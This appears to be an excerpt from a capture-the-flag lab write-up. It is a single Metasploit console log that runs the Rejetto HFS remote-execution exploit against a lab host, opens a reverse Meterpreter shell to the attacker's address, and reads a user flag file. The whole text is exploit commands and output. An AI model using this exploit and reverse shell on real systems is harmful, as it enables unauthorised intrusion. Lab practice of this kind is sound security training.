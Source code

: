 ```
msf5 exploit(windows/http/rejetto_hfs_exec) > set RHOSTS 10.10.208.51
RHOSTS => 10.10.208.51
msf5 exploit(windows/http/rejetto_hfs_exec) > set RPORT 8080
RPORT => 8080
msf5 exploit(windows/http/rejetto_hfs_exec) > set LHOST 10.8.106.222
LHOST => 10.8.106.222
msf5 exploit(windows/http/rejetto_hfs_exec) > set LPORT 9001
LPORT => 9001
msf5 exploit(windows/http/rejetto_hfs_exec) > run

[*] Started reverse TCP handler on 10.8.106.222:9001
[*] Using URL: http://0.0.0.0:8080/n7csS5eVbQYRq
[*] Local IP: http://192.168.178.57:8080/n7csS5eVbQYRq
[*] Server started.
[*] Sending a malicious request to /
/usr/share/metasploit-framework/modules/exploits/windows/http/rejetto_hfs_exec.rb:110: warning: URI.escape is obsolete
/usr/share/metasploit-framework/modules/exploits/windows/http/rejetto_hfs_exec.rb:110: warning: URI.escape is obsolete
[*] Payload request received: /n7csS5eVbQYRq
[*] Sending stage (176195 bytes) to 10.10.208.51
[*] Meterpreter session 1 opened (10.8.106.222:9001 -> 10.10.208.51:49259) at 2020-11-18 19:56:15 +0100
[!] Tried to delete %TEMP%\qfDBqQnxV.vbs, unknown result
[*] Server stopped.

meterpreter > shell
Process 2272 created.
Channel 2 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>cd C:\Users\bill\Desktop
cd C:\Users\bill\Desktop

C:\Users\bill\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 2E4A-906A

 Directory of C:\Users\bill\Desktop

09/27/2019  08:08 AM    <DIR>          .
09/27/2019  08:08 AM    <DIR>          ..
09/27/2019  04:42 AM                70 user.txt
               1 File(s)             70 bytes
               2 Dir(s)  44,170,375,168 bytes free

C:\Users\bill\Desktop>type user.txt
type user.txt
b04763b6fcf51fcd7c13abc7db4fd365
```
